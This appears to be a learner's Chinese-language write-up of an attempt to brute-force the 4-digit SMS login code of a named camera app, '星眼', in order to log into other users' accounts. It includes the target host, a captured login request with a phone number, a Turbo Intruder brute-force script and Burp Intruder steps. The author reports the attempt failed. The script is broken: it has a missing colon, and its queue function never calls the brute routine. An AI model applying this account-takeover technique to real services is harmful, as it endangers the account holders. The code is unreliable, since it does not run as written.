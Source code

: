 >当大家在网站或者app上点击发送短信验证码后，有没有发现过: 当你尝试了好几次错误输入之后，再输入正确的短信验证码，仍然能登录成功。
>原因：这就是验证码没有设置错误次数上限，很多网站和APP都存在这个漏洞，虽然简单，但存在确实很广泛。

“星眼”APP， 一个摄像头的APP客户端。这里就存在这个漏洞，可以登录其他人的账号。 
## 1. 配置 burp 抓手机包
通过[配置步骤](https://szukevin.site/2020/08/16/BurpSuite%E6%8A%93IOS%E8%AE%BE%E5%A4%87HTTPS%E6%B5%81%E9%87%8F/)可以用burpsuit抓手机的包
在“星眼”app注册账号，登陆时，当我们点击发送登陆验证码，随便输入比如1782，然后抓包。以下是抓到的登陆请求：
```text
POST /login/VerificationCode HTTP/1.1
Host: xyx.wiki
Accept: */*
Content-Type: application/json
Content-Length: 47
Version: 1.6
Terminaltype: ios
User-Agent: StarEyeCN/1.6 (iPhone; iOS 17.0; Scale/3.00)
Accept-Language: zh-Hans-CN
Accept-Encoding: gzip, deflate
Connection: close

{"validateCode":"1782","telephone":15898529966}
```

## 2. 为 turbo intruder 写脚本
根据[参考代码](https://blog.csdn.net/m0_49835838/article/details/125584169 )写出如下脚本:

```python
from itertools import product

def brute_verify_code_4(target, engine):
    pattern = "0123456789"
    # itertools 模块中的 product 函数：生成所有由 pattern 中字符组成的 4 位长度的排列组合(元组类型)
    for i in list(product(pattern, repeat = 4)) 
        code = ''.join(i)
        # 将元组i中的元素（一个个字符）连接成一个字符串 code
        # 例如，('0', '1', '2', '3') -> 0123
        engine.queue(target.req, code)

def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=30,                   
        requestsPerConnection=100,
        pipeline=True
    )

def handleResponse(req, interesting):
    table.add(req)
```

但是老师说要并发请求才用这个，这里直接用自带的intruder来爆破即可
## 3. 使用 intruder 爆破
太慢，可以尝试：
- 改一下线程数
- 在vps爆破（不懂）

把数据包发送到intruder中，从0000到9999进行爆破：
![[CleanShot 2023-07-26 at 00.06.33@2x.png]]
![[CleanShot 2023-07-26 at 00.07.20@2x.png]]
但是爆破完显示所有返回结果都相同(length均为198，按道理会有一个不同的)...均为false...没有成功
暂不知道为啥
![[CleanShot 2023-07-26 at 00.09.27@2x.png]]
